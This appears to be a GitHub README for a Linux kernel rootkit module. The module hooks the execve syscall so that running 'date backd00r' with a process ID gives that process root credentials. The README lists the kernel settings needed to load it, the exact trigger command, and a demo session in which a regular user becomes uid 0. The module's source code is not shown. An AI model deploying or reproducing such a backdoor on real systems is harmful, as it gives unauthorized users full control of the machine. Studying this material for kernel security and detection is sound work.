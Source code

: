 # Syscall hook rootkit for the Linux Kernel
This is a fun example of what can be done using Linux kernel modules.

It hooks the `execve` syscall and waits for `date` to be executed with the `backd00r` argument followd by a PID number to elevate to root. It attaches new root credentials to the process pointed by PID.

Tested with kernel 5.6.6.

## Requirements
- Linux Kernel (tested with 5.6).
- `CONFIG_KALLSYMS_ALL=y` flag should be enabled to access the syscall table.
- Kernel modules enables and signature not enforced (default).
- No LSM enabled, typically Lockdown's integrity mode disables kernel modules.

## Usage
Once the module is installed, as a regular user:
`> date backd00r [PID]`

## Example
As root:
```sh
> insmod syscall_hook_rootkit.ko
[   13.668245] syscall_hook_rootkit: loading out-of-tree module taints kernel.
[   13.669009] syscall_hook_rootkit: module verification failed: signature and/or required key missing - tainting kl
[   13.674155] All lights are green...
```

As a regular user (`$$` returns the current process' PID):
```sh
> id
uid=1000(bob) gid=1000(bob) groups=1000(bob)

> date backd00r $$
[  17.343304] SECRET: making PID 1341 root!
date: extra operand '1341'
Try 'date --help' for more information.

> id 
uid=0(root) gid=0(root) groups=0(root),1000(bob)
```
